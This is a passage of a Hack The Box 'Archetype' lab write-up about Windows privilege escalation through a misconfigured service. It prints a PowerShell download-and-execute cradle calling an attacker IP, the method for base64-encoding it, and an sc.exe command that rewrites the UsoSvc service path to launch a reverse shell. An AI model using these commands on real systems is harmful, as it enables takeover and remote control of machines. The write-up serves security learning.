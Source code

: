 - `WinPEAS` just found this juicy stuff:

![16](/assets/images/htb/archetype/16.png)

## <u>Modify service binary path</u>
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

## <u>Encoded Command</u>
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```
